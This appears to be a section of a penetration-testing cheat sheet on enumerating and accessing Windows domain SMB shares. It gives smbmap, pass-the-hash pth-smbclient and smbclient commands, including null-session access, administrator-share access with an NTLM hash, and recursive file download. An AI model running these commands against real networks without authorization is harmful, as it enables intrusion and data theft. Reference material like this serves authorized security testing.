 # Domain Shares

Some shares can be accessible without authentication, explore them to find some juicy files

[smbmap](https://github.com/ShawnDEvans/smbmap)

```
smbmap -H 10.10.10.10                # null session
smbmap -H 10.10.10.10 -R             # recursive listing
smbmap -H 10.10.10.10 -u invaliduser # guest smb session
smbmap -H 10.10.10.10 -d "DOMAIN.LOCAL" -u "USERNAME" -p "Password123*"
```

[pth-smbclient from path-toolkit](https://github.com/byt3bl33d3r/pth-toolkit)

```
pth-smbclient -U "AD/ADMINISTRATOR%aad3b435b51404eeaad3b435b51404ee:2[...]A" //192.168.10.100/Share
pth-smbclient -U "AD/ADMINISTRATOR%aad3b435b51404eeaad3b435b51404ee:2[...]A" //192.168.10.100/C$
ls  # list files
cd  # move inside a folder
get # download files
put # replace a file
```

[smbclient from Impacket](https://github.com/SecureAuthCorp/impacket)

```
smbclient -I 10.10.10.100 -L ACTIVE -N -U ""
        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share
        Replication     Disk      
        SYSVOL          Disk      Logon server share
        Users           Disk
use Sharename # select a Sharename
cd Folder     # move inside a folder
ls            # list files
```

[smbclient - from Samba, ftp-like client to access SMB/CIFS resources on servers](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md)

```
smbclient -U username //10.0.0.1/SYSVOL
smbclient //10.0.0.1/Share

# Download a folder recursively
smb: \> mask ""
smb: \> recurse ON
smb: \> prompt OFF
smb: \> lcd '/path/to/go/'
smb: \> mget *
```
